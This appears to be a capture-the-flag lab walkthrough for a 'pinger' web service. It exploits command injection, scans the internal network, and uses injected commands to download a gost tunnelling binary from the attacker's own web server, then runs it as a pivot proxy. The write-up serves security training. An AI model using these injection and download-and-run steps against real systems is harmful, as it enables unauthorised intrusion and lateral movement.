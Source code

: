 As proof of successful exploitation, provide a flag (a secret string in the format of 32 letters and numbers) from the code of a special hidden page on the target node.

## How to solve
1. We launch the laboratory stand:
```bash
$ docker-compose up -d
```
2. Check the availability of the pinger service via the web interface

3. Check the possibility of command injection:
```bash
> 1.1.1.1; ls
```
4. Collect information about the service:
```bash
> hostname -I
```
5. The IP address belongs to the local network, let's try to find other hosts hidden in the local network:
```bash
> curl 172.22.0.2
```
6. Our task is to find a file on a web server that is hidden on the local network, we use the ffuf utility for this, but this requires a stable connection to the target server through an intermediate host.

We use a proxy from the Go simple tunnel project: https://github.com/ginuerzh/gost

7. Download the binary file from the releases, select the build for Linux with amd64, for example:

https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz

8. Let's prepare the web server to transfer this file to the attacked machine:
```bash
$ cd /tmp
```
```bash
$ mkdir http; cd http
```
```bash
$ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz
```
```bash
$ gunzip gost-linux-amd64-2.11.5.gz # unpack the archive with the binary
```
```bash
$ mv gost-linux-amd64-2.11.5 gost
```
```bash
$ python3 -m http.server 3000
```

9. Determine our IP address:
```bash
$ ip a
```
10. Next, in the browser, we download the file through the pinger interface:
```bash
> 1.1.1.1 | curl -O <your IP>:3000/gost # Change the IP address to your network interface address
```
```bash
> chmod +x gost # grant execution permissions
```
```bash
> ls -la
```
11. Run gost in proxy mode:
```bash
> 1.1.1.1 | ./gost -L=:1338
```